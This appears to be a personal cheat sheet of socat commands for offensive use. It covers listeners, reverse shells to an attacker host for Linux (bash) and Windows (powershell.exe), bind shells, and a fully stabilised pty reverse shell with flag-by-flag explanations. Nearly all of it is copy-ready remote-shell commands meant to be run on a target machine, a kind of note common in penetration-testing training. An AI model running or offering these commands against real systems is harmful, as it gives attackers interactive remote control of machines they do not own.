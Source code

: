 # Basics
In general socat just connects two point. E.g. a listener and std-in.

# Shells
## Reverse shells
**Listeners** \
`socat TCP-L:<port> -` equivalent to `nc -lvnp <port>` \

**Reverse Shell** \
Windows: \
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` \
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. \

Linux: \
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind shells
**Linux**
`socat TCP-L:<PORT> EXEC:"bash -li"`
**Windows**
`socat TCP-L:<PORT EXEC:powershell.exe,pipes>` - We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

## Fully stable linux shell
Socat must be installed on linux target. \
``socat TCP-L:<port> FILE:`tty`,raw,echo=0`` - fully stable Linux reverse shell \
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` - execute this command on target.
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.
